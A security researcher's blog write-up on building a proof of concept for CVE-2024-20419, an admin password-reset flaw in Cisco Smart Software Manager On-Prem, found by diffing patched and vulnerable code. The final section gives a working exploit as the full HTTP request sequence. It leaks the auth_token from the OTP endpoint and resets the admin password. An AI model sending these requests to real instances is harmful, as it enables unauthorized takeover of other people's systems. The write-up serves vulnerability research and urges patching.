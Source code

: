+++
title = 'CVE-2024-20419 POC'
description = "The writeup for finding a POC for CVE-2024-20419, a CVSSv3 10.0 vulnerability in Cisco Smart Software Manager On-Prem."
tldr = "The password reset workflow has the following steps: the user requests to change their password, an OTP code is generated and sent to their email address. If they validate their code, they will receive an `auth_token` which can be used to reset the password. However, in versions before 8-202212 the `auth_token` gets leaked when generating the OTP code."
date = 2024-07-23
draft = false 
+++

## Finding about the CVE and starting to `binwalk`

I found about this CVE on 23 July, while scrolling on my phone.
[DNSC](https://dnsc.ro/citeste/alerta-vulnerabilitati-critice-de-securitate-cibernetic-identificate-la-nivelul-unor-produse-cisco) published an aricle about two critical vulnerabilities in CISCO.
CVE-2024-20419 stood out to me as it had a 10.0 CVSS score, and yet I found out about it almost a week after it was published.
Also, at a quick search I couldn't find any public POC for it.

Judging by the fact that it was marked as easy to exploit, I thought maybe I give it a try to find a POC myself. How hard could it be, right?

I went to the vendors official page to download the first fixed version (8-202212) and the last vulnerable one (8-202206).
The vendor provides an `iso` and the steps to deploy it, however, running two virtual machines in parallel with my aready running Kali machine might have been too much for my laptop.
That's why I decided for beginning to perform some static analysis.

Now, it was time for some `binwalk`ing to find any source code/binaries in the provided `iso`.

Looking through the files extracted, I found a `squashfs` file system.
Right away mounted it, but to my surprise it was just a standard CENTOS file system.

The last directory I looked into was `iso-root/hardening/` as the `hardening` name didn't suggest to me the possiblity of having any files of interest for my goal.

First, let me share a quick fact about Smart Software Manager On-Prem, it used to be called Smart Software Manager Satellite.

In the `hardening` directory I found the following interesting archive: `satellite-install.tgz` (now, you can guess why this archive seemed interesting).
After extracting its contents I had the following files:

```console
❯ ls
ares                                        db                                          ipv6nat                                     satellite-install.sh                        typhaon
backend                                     docker-compose.yml                          onprem-console                              services.img
build.txt                                   fluentd                                     pw.env                                      ssl
cerberus-8_202112-20220720212433.x86_64.rpm frontend                                    redis                                       tacacs-client
```

The contents of `satellite-install.sh` are:

```bash
#!/bin/bash

# Generate password env file
cat << EOP > /home/deployer/atlantis/pw.env
SECRET_KEY_BASE=$(tr -dc A-Za-z0-9_ < /dev/urandom | head -c 128)
POSTGRES_PASSWORD=$(tr -dc A-Za-z0-9_ < /dev/urandom | head -c 16)
ATLANTIS_DATABASE_PASSWORD=$(tr -dc A-Za-z0-9_ < /dev/urandom | head -c 16)
PDB_PASSWORD=$(tr -dc A-Za-z0-9_ < /dev/urandom | head -c 16)
EOP
chmod 400 /home/deployer/atlantis/pw.env

# Install Cerberus
rpm -Uvh ./cerberus-*.rpm

# Install OnPrem Console
cp -a ./onprem-console /opt
chown root:root -R /opt/onprem-console
restorecon -R /opt/onprem-console
ln -nsf /opt/onprem-console/bin/onprem-console /usr/local/bin/onprem-console

#SAV-10749 support database backup for nonsudousers
echo "%onprem         ALL = NOPASSWD: /opt/onprem-console/scripts/backup_database.sh"> /etc/sudoers.d/onprem

# Make runtime environment aware of build target environment
echo "TARGET_ENV=prod" >> /etc/environment

# Placeholder docker context directory to satisfy docker-compose up
mkdir /home/deployer/atlantis/{db,backend,frontend,ipv6nat,redis,typhaon,ares,fluentd,tacacs-client}

# Load docker images
docker load --input ./services.img
```

I generated the `pw.env` file, loaded the docker images from `services.img` and with some tweaks to the `docker-compose` file, I could actually deploy the images on my macintosh machine.

First, I interacted with the login page to see its flow.
I couldn't reset the password of the `admin` user as it didn't have no email associated with it, yet I still learned something out of this: some of the paths involved in the reset password mechanism.

Out of all the containers running after deploying `backend` and `gobackend` seemed that they could store the source code/binaries behind this.
Some `grep`s later, I found that the source code for the app lives in the `backend` docker image and its written in Ruby.

I extracted the code to my local machine and then repeated the process for the patched version.

## Diffing the code

I quickly diffed the two versions of the code to find any interesting differences.

The first relevant difference I found was in the User model class.
Here, a new function was defined, that decided if a user can actually reset their password or not.

![can reset function](/imgs/can_reset.png)

The second difference, was in the `reset_password_service.rb`.

![reset service](/posts/imgs/reset1.png)
![reset service](/posts/imgs/reset2.png)

The changes from the reset password service were quite subtle, and I still couldn't put the finger on what was the change that fixed this vulnerability.

## The answer was right in front of our face

I decided to interact a little with the two instances.
After going through the password reset flow from the beginning to the end, the changes was clear, and I realised that it was right in front of my face.

The `auth_token` is all that is needed to succesfully reset the password of a user.
This token gets leaked when we generate a OTP code via the `get_authtoken` function.

Also, because the lack of a check wether a user can or can't reset its password in the user model, we can bypass the error message I encountered earlier by simply making the `/backend` requests.
We know that all instances of CISCO SSM should have an `admin` user, which makes this even more dangerous and easier to exploit.

Putting these things together, we can generate a probable POC to exploit this vulnerability.

## Validating the POC

First, we have to get the `XSRF-TOKEN` and `lic_engine_session` cookie.
At first, I tried the POC without these and I got hit by an error.
However, looking through the Burp Proxy HTTP History I saw that before making the request to generate an OTP code, a request to `/backend/settings/oauth_adfs?hostname=localhost` is made.

```text
GET /backend/settings/oauth_adfs?hostname=localhost HTTP/1.1
Host: localhost:8443
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Accept: application/json
Content-Type: application/json
Accept-Language: en-GB
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Priority: u=1, i
Connection: keep-alive
```

The response should contain the following headers:

```text
Set-Cookie: XSRF-TOKEN=Yr6InPJwESPfYoR52a%2Bxk4ysZOywkHzW8YlhBtSACD9HnhZ4atrqFMrjsROMbtUKpwLPKmqokmVrWiQlMOCX%2FQ%3D%3D; path=/
Set-Cookie: _lic_engine_session=48787c9a7e0f5685e77f3203c208b777; path=/; HttpOnly
```

Then, we make a request using the `XSRF-TOKEN` and `lic_engine_session` that we extracted earlier to the `/backend/reset_password/generate_code` endpoint, to get the `auth_token`.

```text
POST /backend/reset_password/generate_code HTTP/1.1
Host: localhost:8443
Cookie: XSRF-TOKEN=<XSRF_TOKEN>; _lic_engine_session=<LIC_TOKEN>
Content-Length: 15
X-Xsrf-Token: <XSRF_TOKEN>;
Sec-Ch-Ua-Mobile: ?0
Content-Type: application/json
Accept: application/json
Connection: keep-alive

{"uid":"admin"}
```

```text
HTTP/1.1 200 OK

...

{"uid":"admin","auth_token":"<AUTH_TOKEN>"}
```

Now, with the `auth_token` we got we can make the reset password request:

```text
POST /backend/reset_password HTTP/1.1
Host: localhost:8443
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate, br
Accept: application/json
Connection: keep-alive
Content-Type: application/json
X-Xsrf-Token: <XSRF_TOKEN>
Cookie: _lic_engine_session=<LIC_TOKEN>; XSRF-TOKEN=<XSRF_TOKEN>
Content-Length: 192

{"uid": "admin", "auth_token": "AUTH_TOKEN", "password": "Test1234567890!", "password_confirmation": "Test1234567890!", "common_name": ""}
```

If everything is alright we should get the following response:

```text
HTTP/1.1 200 OK
...
{"status":"OK"}
```

Make sure to patch your instances if you have any, as this is a trivial exploit with tremendous consequences.